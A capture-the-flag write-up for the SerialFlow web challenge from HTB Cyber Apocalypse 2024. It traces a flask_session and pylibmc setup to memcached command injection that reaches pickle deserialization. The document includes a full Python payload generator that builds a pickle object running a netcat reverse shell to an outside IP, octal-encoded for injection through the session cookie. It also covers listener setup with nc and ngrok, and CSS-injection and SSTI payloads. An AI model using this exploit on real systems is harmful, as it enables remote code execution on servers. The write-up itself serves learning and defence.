SerialFlow is a “web exploitation” challenge that was featured in HTB’s Cyber Apocalypse 2024 CTF.





## Source-Code Review

Let’s start with reviewing `app.py`

```py
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session
```

Keeping in mind that this web application is a `flask` based utilizing `pylibmc` and `flask_session` libraries.

```py
app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)
```

We can observe that there is a mention of something called `memcached` , searching about this a bit reveals that it is used for `caching` data.



In the above code, notice sort of initialization of `pylibmc.Client()` . Searching a bit about this library points out why it is being used here and that is to communicate with `memcached` server that is set-up on `backend` at `port 11211` .



And also searching about `flask_session` points to the idea that this “trio” of `pylibmc` , `memcached` and `flask_session` are related to each other.



Moving onto the next part of code:

```py
@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]
```

`@app.before_request` decorator makes sure that the code below runs “before each request”. Here the application is getting value of `session` from current `user "session"` and checking for its `length` to be more than `86` and if it is then it is truncating it so that it remains of length `86` and anything exceeding that length is removed. So we have a restriction as to how long our `session` value can be.

```py
@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500
```

This part is simply about `error-handling` , although this code is bad since it is revealing more than necessary information to the `end-user` .

```py
@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")
```

An interesting part, `/set` endpoint here when you send it a `GET` request to it with `uicolor` query `param` , it will store the value you pass to `uicolor` to the current `session` ‘s `uicolor` . This opens up attack-path for `Stored XSS` and perhaps even `SSTI` , if it is being reflected/used either in the `rendered page` for `xss` and in the `template` for `SSTI` . You can search more about these two common vulnerabilities.

Let’s first explore how `uicolor` is stored in the `memcached` server and where does it shows up. We will spin-up a docker-instance of this application with exposed `11211` port just to experiment with it a bit. **Remember**, `port 11211` is **not exposed** in the actual instance of our target web app.

We will use the following commands to interact with the `memcached` server directly.

```txt
nc 127.0.0.1 11211 # To connect to the running memcached server
stats items # To get items of slabs with info
stats cachedump <number> 0 # To get key names through item "number"
get key_name # To get value stored in the key
```

First, lets send a `GET` request with `uicolor` param at `/set` endpoint:

```txt
127.0.0.1:1337/set?uicolor=hello mom!
```


Running command `stats items` :



Let’s grab that item `number` `4` and send another command to list out   
`key names` :



Look! there is our `user session` that is being handled by `flask_session` using `pylibmc` to be `cached` on `memcached` server. Now, sending another command to get the `value` from that `key` . Take a look at how our `data` in `user session` is stored here.


Okay that was great and all but I wonder where this will come to use. Now, for the last part of our `app.py` source code.

```py
@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```

Take a look at how `uicolor` is passed onto the `render_template` function. So, it is being used in `templates` and therefore may lead to `SSTI` . Let’s take a look at `index.html` `template` to confirm that.

```css
body {
            font-family: Source Code Pro;
            background: #000;
            color: {{uicolor}};
            margin: 0;
            font-size: 13px;
}
```

The above `css` code is found inside `<head>` tag of the `html` document. At best I could get out of this was kind-of `css injection` using the following payload:

```txt
/set?uicolor=white;background-image: url(https://webhook.site/6270c001-1ed0-4200c32ad723eec7)
```

and also tried to perform `SSTI` using the following payload:

```txt
/set?uicolor=black; } body::before {content: "{{7*7}}"
```

**But** `flask` **was escaping** `"` **quotes and also it was escaping** `html specific symbols` **and therefore I was unable to go through** `SSTI` **and** `XSS` **here.**

Let’s now take a look at… wait… that’s it? we reached the end of our   
`source code` .

Well, I kind-of got stuck here until I realized I have more than web app’s source code. I also have `libraries` this app is using and going back to the beginning of this write-up, the “trio” of `pylibmc` , `memcached` and `flask_session` .

First, I took a look at `requirements.txt` . Searching for vulnerabilities for the given version, you may find few bugs but nothing much significant for us to use in our context.

```txt
Flask==2.2.2
Flask-Session==0.4.0
pylibmc==1.6.3
Werkzeug==2.2.2
```

After this, I became interested in understanding how `flask_session` is exactly storing our `session` in `memcached` server. So, I began going through the `source code` of `flask_session` of `version 0.4.0` .

Taking a look at `sessions.py` from `flask_session` that was imported in `app.py` of `SerialFlow` web app.

```py
import sys
import time
from datetime import datetime
from uuid import uuid4
try:
    import cPickle as pickle
except ImportError:
    import pickle

from flask.sessions import SessionInterface as FlaskSessionInterface
from flask.sessions import SessionMixin
from werkzeug.datastructures import CallbackDict
from itsdangerous import Signer, BadSignature, want_bytes
```

If this is your first time encountering this bad boy, you won’t see it. So let me point out our bad boy `pickle` library that is used for `serialization` and `de-serialization` .

Searching a little-bit about this. Yeah, can’t miss that big red text box screaming “warning” at your face. Essentially, `pickle` is very popular for being vulnerable to `deserialization` attack, if used badly; eventually leading up to `remote code execution` .





Going further in the `sessions.py` source code

```py
class MemcachedSessionInterface(SessionInterface):
    serializer = pickle
    session_class = MemcachedSession
```

Going great so far, we can evidently see `pickle` being used as a `serializer` .

```py
self.client.set(full_session_key, val, self._get_memcache_timeout(
                        total_seconds(app.permanent_session_lifetime)))
```

```py
full_session_key = self.key_prefix + session.sid
```

Making `full_session_key` vulnerable to `Injection Attacks` since `session.sid` is something which **we can control** if sufficient restrictions are not in place as to how input goes from a `source` to this `sink`.

```py
sid = request.cookies.get(app.session_cookie_name)
        if not sid:
            sid = self._generate_sid()
            return self.session_class(sid=sid, permanent=self.permanent)
```

Recall from earlier code review and interaction with `memcached` server that we do not have any `key_prefix` and `sid` for `session` comes through either `_generate_sid()` method or `session` `cookie` `value` . **Therefore, through** `session` `cookie` `value` **we have control over** `full_session_key` .

```py
val = self.client.get(full_session_key)
        if val is not None:
            try:
                data = self.serializer.loads(val)
```

`full_session_key` from earlier can be used to `get` `session` `data` of ours which contain our malicious payload. This directly goes inside `serializer.loads()` which makes this vulernable to `Pickle RCE`.

Combine both attack vectors from above, we can make a guess that there is something up with `Memcached` and `pickle` due to `injection` . Let’s do a search for that.





First one talks about `memcached injection` which itself is the basis for the second article by `D4D blog` .

## Exploitation

[Memcached Command Injections at Pylibmc](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) article talks very clearly about this issue that we found out from our research above into the `source-code` of `flask_session` library.

[Demo Application](https://github.com/d0ge/proof-of-concept-labs/tree/main/pylibmc-flask-session) that `D4D` provides is very similar to what we have in `SerialFlow` application.

Here is a modified `payload generator` given by `D4D` in the article:

```py
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('nc 18.136.148.247 14297 -e /bin/sh')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset 1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get 1337')

    print(cookie)

    print(list(cookie))

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

x = generate_exploit()
print(x)
```

We will now set-up a `reverse shell listener` using `netcat` through `ngrok` to expose it to the outside world.

```sh
nc -nvlp 1234 # Start a netcat listener
```

```sh
ngrok tcp 1234 # To reach our netcat listner from outside world
```

```sh
dig 0.tcp.ap.ngrok.io # To find ip address of this domain
```





Modifying `ipv4 address` and `port` in the above `payload_generator` script and then running it.



Now open the `SerialFlow` website and modify the cookie with the given `octal encoded` output. **Make sure you encapsulate** `payload` **in double quotes** `"` **.**





Now do a refresh and see if your `nc` catches the connection. 😳





🍃 We have successfully pwned `SerialFlow` web app and thus completed the challenge.